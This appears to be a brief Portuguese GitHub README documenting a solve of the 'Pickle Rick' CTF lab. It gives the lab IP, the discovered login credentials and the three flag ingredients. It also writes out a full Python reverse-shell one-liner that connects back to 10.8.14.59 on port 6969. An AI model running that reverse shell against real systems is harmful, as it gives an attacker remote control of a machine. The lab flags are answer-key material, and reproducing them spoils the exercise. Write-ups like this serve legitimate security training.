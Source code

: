 # HackerMindSet

Tentando fazer o Pickle Rick:


IP = 10.10.244.103


![fds](https://github.com/user-attachments/assets/8e80809f-2319-4c01-98f8-ba822ad725c4)



http://10.10.244.103/

http://10.10.244.103/login.php

![Screenshot_1](https://github.com/user-attachments/assets/0edcef3b-cb38-4af0-b674-54c704a9ad98)

Username: R1ckRul3s

Password:Wubbalubbadubdub

![Screenshot_2](https://github.com/user-attachments/assets/37566f13-79b6-4793-9c5a-4d9eadc991e9)

primereiro ingrediente: mr. meeseek hair

![Screenshot_3](https://github.com/user-attachments/assets/96434c69-f95a-4292-8da8-4a799d5699b9)

#FAZER REVERSE SHELL
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.8.14.59",6969));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' - (NÃO COLOCAR EM UM PROGRAMA)

![Screenshot_4](https://github.com/user-attachments/assets/1bbaac53-52db-4c9a-8d33-bd61a8a97dfa)

segundo ingrediente: 1 jerry tear


terceiro ingrediente: fleeb juice

#FINALIZADO

![Screenshot_5](https://github.com/user-attachments/assets/848c8128-5e50-44ff-9e50-d87e66a6b3a3)

#Aqui segue o mapeamento da conclusão de um CTF, tudo isso me maneira resumida
![Screenshot_5](https://github.com/user-attachments/assets/8effdef2-9fc3-4f93-a02d-f869259b5c4f)

![Screenshot_6](https://github.com/user-attachments/assets/e15c9512-2bc6-4bdf-b6d7-9285f4269865)



